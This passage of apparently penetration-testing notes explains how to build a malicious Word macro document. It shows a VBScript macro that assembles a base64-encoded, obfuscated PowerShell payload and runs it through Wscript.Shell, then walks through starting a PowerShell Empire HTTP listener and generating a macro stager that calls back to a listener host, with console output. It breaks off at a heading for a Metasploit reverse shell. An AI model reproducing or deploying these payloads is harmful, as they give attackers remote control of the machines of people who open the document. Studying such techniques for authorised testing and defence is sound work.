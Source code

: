 ```vbscript
    ...
    Str = Str + "AZQBzAHMAaQBvAG4ATQBvAGQAZQBdADoAOgBEAGUAYwBvAG0Ac"
    Str = Str + "AByAGUAcwBzACkADQAKACQAcwB0AHIAZQBhAG0AIAA9ACAATgB"
    Str = Str + "lAHcALQBPAGIAagBlAGMAdAAgAEkATwAuAFMAdAByAGUAYQBtA"
    Str = Str + "FIAZQBhAGQAZQByACgAJABnAHoAaQBwACkADQAKAGkAZQB4ACA"   
    Str = Str + "AJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAVABvAEUAbgBkACgAK"
    Str = Str + "QA=" 
    
    CreateObject("Wscript.Shell").Run Str 
End Sub
```

Now save the file as either a `docm` file type or a `doc` (older) file type 

**ALTERNATIVELY**

we can use powershell empire

```sh
(Empire) > listeners
(Empire: listeners) > uselistener http
(Empire: listeners/http) > set Host 192.168.119.194
(Empire: listeners/http) > set Name exploit
(Empire: listeners/http) > execute
[*] Starting listener 'exploit'
 * Serving Flask app "http" (lazy loading)
 * Environment: production
   WARNING: This is a development server. Do not use it in a production deployment.
   Use a production WSGI server instead.
 * Debug mode: off
[+] Listener successfully started!
(Empire: listeners/http) > back
(Empire: listeners) > usestager windows/macro
(Empire: stager/windows/macro) > listeners

[*] Active listeners:

  Name              Module          Host                                 Delay/Jitter   KillDate
  ----              ------          ----                                 ------------   --------
  exploit           http            http://192.168.119.194:80            5/0.0                  

(Empire: stager/windows/macro) > set Listener exploit
(Empire: stager/windows/macro) > execute

[*] Stager output written out to: /tmp/macro
```

Check if macro was embedded using `olevba word_macro.doc from [oletools](https://github.com/decalage2/oletools)

## Metasploit framework

### Windows reverse meterpreter shell

